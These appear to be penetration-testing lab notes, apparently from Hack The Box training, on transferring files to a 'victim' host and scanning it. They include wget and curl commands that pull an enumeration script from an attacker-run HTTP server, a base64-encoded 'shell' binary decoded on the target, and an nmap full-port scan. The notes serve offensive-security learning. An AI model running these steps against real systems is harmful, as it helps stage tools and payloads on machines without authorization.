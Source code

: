  <br/><br/> 

### <span class="useful_shit subtitle">Transferring Files  

1. Using `wget`  
* We run a Python HTTP server on our machine and wget or cURL on the victim to download the file   

* On my machine
  ```console
  Shatha Barqawi@htb[/htb]$ cd /tmp
  Shatha Barqawi@htb[/htb]$ python3 -m http.server 8000

  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  ```

* On victim  
  ```console
  user@remotehost$ wget http://10.10.14.1:8000/linenum.
  ```  
  OR   
  ```console
  user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
  ```  

2. Using `scp`  

   ```
   scp [PATH TO FILE ON MY SYSTEM] [USERNAME]@[TARGET IP]:[PATH ON TARGET TO TRANSFER FILE TO]
   ```

3. Using `base64`  
* In some cases, there might be firewall protections that prevent us from downloading a file from our machine. In such case we can use `base64` and encode the file into base64 format and then copy/paste the base64 string to the remote server and decode it there.   
  ```console
  Shatha Barqawi@htb[/htb]$ base64 shell -w 0
  ```  

  ```console
  user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
  ```  

* To check that we didn't miss anything up during the encoding/deconding process we can use the command `md5sum [FILENAME]` on both machines and check if they're equal.  

 <br/><br/> 

### <span class="useful_shit subtitle">Nmap  

* We can use the option `-oA [FILE NAME]` to save the nmap output in a file in the working directory.
  ```console
  nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
  ``` 

 <br/><br/> 

### <span class="useful_shit subtitle">Web Testing  
